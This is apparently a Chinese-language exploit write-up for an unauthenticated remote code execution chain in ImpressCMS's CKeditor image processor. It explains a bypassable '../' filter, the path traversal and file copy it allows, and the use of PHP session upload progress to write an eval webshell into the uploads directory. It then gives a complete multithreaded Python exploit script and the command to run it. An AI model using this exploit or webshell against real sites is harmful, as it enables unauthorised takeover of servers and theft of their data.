 # impressCMS - 未经身份验证的代码执行

项目地址:https://github.com/ImpressCMS/impresscms

> impressCMS中的CKeditor图像处理器过去没有足够的过滤器用于用户提供的图像路径为攻击者提供了可能的路径遍历，导致任意文件复制/覆盖，默认的php配置用于会话上传进度，这可能导致预身份验证RCE。

## 漏洞分析
任意文件复制

htdocs/editors/CKeditor/ceditfinder/imageeditor/processImage.php

```php
> header("Content-Type: text/plain"); $imageName = str_replace(array("../", "./"), "", $_REQUEST['imageName']);
> $origName = str_replace(array("../", "./"), "", $_REQUEST['origName']);
if (empty($origName)) {
    echo "{imageFound:false}"; exit;
}
...
...
...
...
$action = $_REQUEST["action"]; $fileInfo = pathinfo($imageName); $extension = $fileInfo['extension']; switch ($action) {
    case "undo":  // This is actually revert now, as only revert is supported
        if (file_exists($origName)) {
>           unlink($imageName); copy($origName, $imageName); }
        break;
```

执行操作时，调用函数并由攻击者控制参数`undocopy()$_REQUEST['origName']$_REQUEST['imageName']`

**路径遍历**

```php
~$ php -a
Interactive mode enabled

php > var_dump(str_replace(array("../", "./"), "", '.....///'));
string(3) "../"
```

`.....///`通过过滤器后变`../`

举例:

```
http://[%CMS_HOST%]/editors/CKeditor/ceditfinder/imageeditor/processImage.php?imageName=[%SOURCE_FILE%]&origName=[%DEST_FILE%]&action=undo
```

此时利用 `cookie PHPSESSID=letspwnimpressCMS`和POST参数`PHP_SESSION_UPLOAD_PROGRESS`的多部分发布请求池，其中包含我们的payload`<?=eval($_GET[a]);exit;//`


## 创建线程触发文件复制

```
http://[%CMS_HOST%]/editors/CKeditor/ceditfinder/imageeditor/processImage.php?origName=/var/lib/php/sessions/sess_letspwnimpressCMS&imageName=.....///.....///.....///.....///uploads/aa.php&action=save
```

此时同时调用会话文件将文件复制到aa.php的上传目录，并且访问shell

```
http://[%CMS_HOST%]/uploads/aa.php?a=phpinfo();
```

最终的漏洞利用代码

```py
import sys
import string
import requests
from multiprocessing.dummy import Pool as ThreadPool
if len(sys.argv)<3:
    print('python '+sys.argv[0]+' http://localhost 1')
    print('python '+sys.argv[0]+' http://localhost 2')
    exit()
HOST = sys.argv[1]
PATH = '/editors/CKeditor/ceditfinder/imageeditor/processImage.php'
sess_name = 'letspwnimpressCMS'
headers = {
    'Connection': 'close',
    'Cookie': 'PHPSESSID=' + sess_name
}
payload = '<?=eval($_GET[a]);exit;//'
def runner1(i):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': 'A' + payload + 'A'
    }
    while 1:
        fp = open('/etc/hosts', 'rb')
        r = requests.post(HOST+PATH, files={'f': fp}, data=data, headers=headers)
        fp.close()
def runner2(i):
    filename = '/var/lib/php/sessions/sess_' + sess_name
    while 1:
        url = HOST+PATH+'?origName=.....///.....///.....///.....///uploads/aa.php&imageName=/var/lib/php/sessions/sess_letspwnimpressCMS&action=save'
        r = requests.get(url, headers=headers)
        c = r.content
        url2 = requests.get(HOST+'/uploads/aa.php?a=echo%20%2799999999999999999999999999999%27;copy(%27aa.php%27,%27bb.php%27);')
        if('99999999999999999999999999999' in url2.text):
            print('[+] done!')
            print('[!] Check '+HOST+'/uploads/bb.php?a=phpinfo();')
            exit()

if sys.argv[2] == '1':
    runner = runner1
else:
    runner = runner2

pool = ThreadPool(32)
result = pool.map_async( runner, range(32) ).get(0xffff)
```

运行:

```
python3 exp.py http://localhost/
```